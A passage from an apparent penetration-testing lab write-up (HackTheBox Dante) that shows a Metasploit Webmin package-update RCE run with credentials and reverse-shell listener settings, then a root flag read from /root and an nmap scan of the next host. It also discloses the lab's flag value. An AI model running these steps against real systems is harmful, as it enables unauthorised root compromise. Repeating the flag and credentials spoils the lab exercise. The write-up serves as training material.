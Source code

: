 ```
msf6 > use 7
msf6 exploit(linux/http/webmin_packageup_rce) > set password Password6543
msf6 exploit(linux/http/webmin_packageup_rce) > set rhost 172.16.1.17
msf6 exploit(linux/http/webmin_packageup_rce) > set username admin
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.14.4
msf6 exploit(linux/http/webmin_packageup_rce) > set lport 4444
msf6 exploit(linux/http/webmin_packageup_rce) > exploit
```

<figure><img src="../../../.gitbook/assets/image (92) (1).png" alt=""><figcaption></figcaption></figure>

Nice, so we have a root session. I went back to the webmin site to look at the available users

<figure><img src="../../../.gitbook/assets/image (93) (1).png" alt=""><figcaption></figcaption></figure>

We have user `lou` . Tried to read the flag from her home directory but the flag wasn't there. Then, i just read the root flag.

```
cat /root/flag.txt
```

12th flag: `DANTE{SH4RKS_4R3_3V3RYWHERE}`

***

## <mark style="color:red;">That just blew my mind</mark>

### 172.16.1.19 (DANTE-NIX07)

```
Nmap scan report for 172.16.1.19
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
8080/tcp open  http    Jetty 9.4.27.v20200227
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.27.v20200227)
Service Info: Host: 127.0.0.1
```

